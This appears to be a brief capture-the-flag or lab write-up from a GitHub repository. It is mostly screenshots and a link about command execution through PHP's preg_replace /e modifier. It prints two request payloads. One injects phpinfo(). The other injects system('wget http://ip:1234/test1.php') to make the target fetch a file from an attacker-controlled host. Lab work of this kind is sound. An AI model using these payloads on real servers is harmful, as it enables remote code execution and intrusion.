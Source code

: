 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2361431a-bf37-44b2-806a-b76500028462)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9abfe5ff-af2e-4673-a9a1-4e31626755ba)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3c63736c-a880-4232-9dfd-ed420b507e97)

https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/019d9fe1-3ab4-47b8-a34b-21e260c328b7)

`pattern=/a/e&replace=phpinfo();&paragraph=4`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4284093c-88d1-4a76-9082-4bdc1b38b788)

`pattern=/a/e&replace=system('wget http://ip:1234/test1.php');&paragraph=4`


